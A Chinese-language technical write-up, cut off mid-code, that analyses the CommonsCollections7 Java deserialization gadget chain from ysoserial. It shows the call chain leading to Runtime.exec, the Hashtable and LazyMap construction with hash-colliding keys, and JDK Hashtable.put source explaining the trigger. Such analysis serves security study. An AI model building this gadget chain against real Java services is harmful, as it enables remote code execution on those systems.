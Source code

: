 ## 简介
CC7 也是利用的Commons Collections 3.1 的利用，看ysoserial里的利用链为入口是HashTable，针对HashTable的反序列化，再通过`AbstractMap#equals`来调用`LazyMap#get`
```java
/*
    Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
*/
```
## 链路分析
```java
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy",1);

Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);


Hashtable hashtable = new Hashtable();

hashtable.put(lazyMap1, 2);
hashtable.put(lazyMap2, 1);
```
### 0x1
CC7 这里有一个知识点，直接看`HashTable#put`函数，传入的key和value为我们传入的第二个key-value对，在这个函数里，我们可以看到他会判断是否和传入的第一个值是否重复，也就是代码块中第8行到第17行，如果已经存在，就不会再写入hashtable中，如果不存在则会直接写入
在此处可以看到首先会对传入的key（也就是lazymap）进行执行一次hashcode()计算hash值，然后会对比已经存在hashtable的数据的hash是否与我们传入的`key.hashCode()`是否相等，然后就会调用已存在的lazymap1与传入的lazymap2进行比较
```java
public synchronized V put(K key, V value) {
    // Make sure the value is not null
    if (value == null) {
        throw new NullPointerException();
    }

    // Makes sure the key is not already in the hashtable.
    Entry<?,?> tab[] = table;
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    @SuppressWarnings("unchecked")
    Entry<K,V> entry = (Entry<K,V>)tab[index];
    for(; entry != null ; entry = entry.next) {
        if ((entry.hash == hash) && entry.key.equals(key)) {
            V old = entry.value;
            entry.value = value;
            return old;
        }
```